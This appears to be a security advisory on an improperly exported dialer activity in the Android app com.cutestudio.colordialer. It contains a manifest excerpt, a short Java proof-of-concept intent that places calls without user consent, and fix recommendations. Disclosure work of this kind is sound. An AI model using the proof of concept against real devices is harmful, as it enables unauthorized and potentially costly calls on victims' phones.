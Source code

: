 
---

## Vulnerability Report

### Metadata:

- **Application**: `com.cutestudio.colordialer`
- **Component**: `com.cutestudio.dialer.activities.DialerActivity`
- **Vulnerability Type**: `CWE-284: Improper Access Control`
- **Associated Risks**: Unauthorized phone calls without user interaction

### Description:

The `com.cutestudio.dialer.activities.DialerActivity` component of the `com.cutestudio.colordialer` application is improperly exported, allowing any third-party application to send intents to it. This oversight results in a potential risk where unauthorized phone calls can be initiated without user consent or interaction.

### Proof of Concept:

A third-party application can craft an intent targeting `com.cutestudio.dialer.activities.DialerActivity` using the `android.intent.action.CALL` action paired with a `tel:` URI, thereby placing a phone call. The exported nature of this activity lacks any verification to authenticate the origin of the intent, leading to possible misuse.

### Code Samples:

1. **Manifest declaration in 'com.cutestudio.colordialer':**

```xml
<activity 
    android:theme="@style/Theme.Transparent" 
    android:label="@string/dialer" 
    android:name="com.cutestudio.dialer.activities.DialerActivity" 
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme="tel"/>
    </intent-filter>
</activity>
```

2. **Proof of Concept using 'com.example.d3m0':**

```java
Intent dialerIntent = new Intent("android.intent.action.CALL");
dialerIntent.setComponent(new ComponentName("com.cutestudio.colordialer", "com.cutestudio.dialer.activities.DialerActivity"));
dialerIntent.setData(Uri.parse("tel:+1234567890"));
startActivity(dialerIntent);
```

![Demonstration](https://github.com/actuator/com.cutestudio.colordialer/blob/main/dial.gif)

### Recommendations:

1. Reevaluate the `android:exported` attribute of the `DialerActivity`. If there's no strict requirement for this activity to be exposed, it is advisable to set `android:exported="false"` in the AndroidManifest.xml.
2. Should there be a necessity to maintain the exported status, a stringent intent verification mechanism should be established to guarantee that only authenticated or trusted intents access the activity.

---
